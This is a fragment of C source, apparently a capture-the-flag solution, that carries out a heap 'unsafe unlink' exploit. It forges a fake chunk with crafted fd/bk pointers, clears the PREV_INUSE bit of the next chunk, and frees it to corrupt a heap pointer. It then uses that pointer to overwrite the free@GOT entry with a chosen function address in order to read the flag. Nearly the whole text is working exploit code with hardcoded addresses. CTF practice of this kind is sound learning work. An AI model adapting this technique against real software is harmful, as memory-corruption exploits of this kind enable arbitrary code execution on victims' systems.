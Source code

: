 ```c  
	int i;  
	for (i = 0; i < 2000; i++)  
		mall(map_base, i % 4, 0x80);

	// we now have some heap pointers at the indexes 0,1,2,3  
	printf("Starting exploit\n");

	// struct chunk_structure {  
	//   size_t prev_size;  
	//   size_t size;  
	//   struct chunk_structure *fd;  
	//   struct chunk_structure *bk;  
	//   char buf[10];               // padding  
	// };

	// First forge a fake chunk starting at chunk1  
	// Need to setup fd and bk pointers to pass the unlink security check  
	//fake_chunk = (struct chunk_structure *)chunk1;  
	//fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P  
	//fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

	// fake chunk prev_size = 0 (probably not needed)  
	write_heap(map_base, 0, 0, 0);  
	write_heap(map_base, 0, 0, 4);  
	// fake chunk size = 0x80, NON_MAIN_ARENA and PREV_INUSE flags are set  
	write_heap(map_base, 0, 0x85, 8);  
	write_heap(map_base, 0, 0, 12);  
	// write &chunk1 - 3 (0x1317928) in chunk1 + 16  
	write_heap(map_base, 0, 0x1317928, 16);  
	// write &chunk1 - 2 (0x1317930) in chunk1 + 24  
	write_heap(map_base, 0, 0x1317930, 24);

	// Next modify the header of chunk2 to pass all security checks  
	//chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);  
	//chunk2_hdr->prev_size = 0x80;  // chunk1's data region size  
	//chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

	// chunk2 prev_size = 0x80  
	write_heap(map_base, 0, 0x80, 0x80);  
	// unset PREV_INUSE bit for chunk2  
	write_heap(map_base, 0, 0x94, 0x88);

	// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'  
	// This results in chunk1 pointer pointing to chunk1 - 3  
	// i.e. chunk1[3] now contains chunk1 itself.  
	// We then make chunk1 point to some victim's data  
	//free(chunk2);  
	myfree(map_base, 1);  
	printf("Pointer overwritten\n");

	// overwrite pointer at index 1 with the address of free@GOT  
	write_heap(map_base, 0, 0x011301A0, 32);  
	write_heap(map_base, 0, 0, 36); 

	// overwrite GOT entry of free with our target function  
	write_heap(map_base, 1, 0x6e65f9, 0);  
	write_heap(map_base, 1, 0, 4);

	printf("Reading flag\n");  
	myfree(map_base, 0);  
  
	if(munmap(map_base, MAP_SIZE) == -1) PRINT_ERROR;  
	close(fd);  
```